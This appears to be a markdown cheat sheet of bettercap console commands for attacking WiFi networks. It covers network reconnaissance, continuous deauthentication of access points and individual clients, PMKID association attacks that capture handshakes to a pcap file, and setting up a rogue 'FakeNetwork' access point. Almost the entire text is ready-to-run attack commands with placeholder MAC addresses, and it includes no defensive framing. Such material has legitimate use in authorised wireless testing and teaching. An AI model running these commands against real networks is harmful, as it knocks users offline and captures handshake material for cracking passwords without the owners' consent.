 #### WiFi Reconnaissance
```bash
# Enable WiFi discovery
> wifi.recon on

# Show discovered networks
> wifi.show

# Filter and sort results
> set wifi.show.sort rssi desc
> set wifi.show.limit 10
> wifi.show

# Clear discovered networks
> wifi.clear
```

### Targeted Attacks

#### Deauthentication Attacks
```bash
# Deauth all clients from specific AP
> wifi.deauth AA:BB:CC:DD:EE:FF

# Deauth specific client
> set wifi.deauth.target AA:BB:CC:DD:EE:FF,CC:DD:EE:FF:00:11
> wifi.deauth AA:BB:CC:DD:EE:FF

# Continuous deauth
> set wifi.deauth.interval 5s
> wifi.deauth AA:BB:CC:DD:EE:FF
```

#### PMKID Attacks
```bash
# Enable PMKID association attacks
> set wifi.assoc.open false
> wifi.assoc AA:BB:CC:DD:EE:FF

# Attack all visible APs
> wifi.assoc all

# Monitor handshake capture
> set wifi.handshakes.file /tmp/bettercap-handshakes.pcap
```

### Rogue Access Point with bettercap
```bash
# Configure fake AP
> set wifi.ap.ssid FakeNetwork
> set wifi.ap.bssid aa:bb:cc:dd:ee:ff  
> set wifi.ap.channel 6
> set wifi.ap.encryption true

# Start fake AP (requires wifi.recon to be running)
> wifi.recon on
> wifi.ap on
```
